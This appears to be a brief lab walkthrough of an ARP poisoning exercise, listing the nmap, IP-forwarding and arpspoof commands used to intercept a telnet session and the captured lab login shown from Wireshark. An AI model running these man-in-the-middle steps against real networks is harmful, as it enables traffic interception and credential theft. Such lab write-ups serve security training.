




# ARP posioning
In this lab environment, the user is going to get access to a Kali GUI instance. There is a telnet server and a client machine on the same network and the client machine authenticates with the telnet server, every 30 seconds. Attacks can be performed on both machines by using the tools installed on the Kali instance.

Objective: Identify the telnet server and client machine, steal the telnet login credentials by performing an ARP poisoning attack, and log in to the server.

## Find the IP
1. $ip addr and look at eth1: 10.100.13.140/24
2. nmap the eth: $nmap 10.10.13.0

The first machine is gateway, second is telnet, third is client machine and the last is kali machine.

## Configure kali to foward IP packets
used: echo 1 > /proc/sys/net/ipv4/ip_forward

## Perfoming ARP poision attack
used: arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36

## Wireshark
Open wireshark with eth1, then apply telnet filter. After that follow the TCP stream.

Username: admin
password: MyS3cr3tP455

## Connect to telnet
Used the credentials to connect

